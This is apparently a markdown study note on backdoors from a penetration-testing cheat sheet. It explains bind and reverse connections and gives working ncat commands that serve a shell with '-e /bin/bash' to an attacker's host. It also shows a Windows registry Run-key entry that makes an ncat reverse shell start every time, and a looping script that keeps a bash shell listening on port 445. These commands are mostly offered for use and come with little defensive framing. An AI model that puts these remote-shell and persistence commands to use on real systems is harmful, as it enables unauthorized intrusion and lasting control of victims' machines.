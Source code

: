 ## System Attacks
### Backdoor

Backdoors have two components, server and client:
- *Server* runs on the victim machine listening on the network in order to accept connections.
- *Client* runs on the attacker machine.
- `Netbus` or `SubSeven` are very famous.
- If the backdoor server sits behind a firewall, the easiest way to archive a connection is using a **Connect-back Backdoor** or **Reverse Backdoor**.
- A firewall cannot tell the difference between a user surfing the web and a backdoor connecting back to the attacker's machine.

#### Create stable connection to a remote host

```bash
# => Listener
ncat -l -v -p 5555 -e /bin/bash
# => Client
ncat localhost 5555

## Reverse connection
# => Attacker/Listener
ncat -l -p 5555 -v
# => Victim / Client
ncat -e /bin/bash remoteIP remotePort

# bash interactive for friendly prompt
bash -i
```

```bash
# Persist execution in windows
> regedit.exe
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run

# Add string value
Name: ncact
Value: yourpath\ncat attackerMachine Port -e cmd.exe
```

```bash
# Persistent connection script
# By default netcat does not have a persistent connection.
# You will need to run it in a while loop if you want to connect to it more than once.
# Otherwise it will close the program after the first connection:
# https://defcon.org/images/defcon-22/dc-22-presentations/Nemus/DEFCON-22-Lance-Buttars-Nemus-Intro-to-backdooring-OS.pdf

#!/bin/bash
while [ 1 ]; do
  echo | ncat -l -v -p 445 -e /bin/bash
done
```
